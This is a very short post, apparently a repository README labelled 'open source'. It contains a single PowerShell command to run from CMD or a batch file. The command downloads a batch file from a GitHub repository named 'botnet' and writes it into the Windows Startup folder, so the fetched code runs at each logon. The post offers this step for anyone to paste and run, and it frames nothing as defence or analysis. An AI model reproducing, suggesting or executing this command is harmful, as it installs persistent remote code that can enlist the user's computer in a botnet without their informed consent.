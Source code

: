 >OPEN SOURCE!!!

# CODE: (RUN ON CMD OR A BATCH FILE)
```
powershell -command "Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/unfunnylaugh/botnet/main/code.bat' -OutFile 'C:\Users\%user%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup'"
```
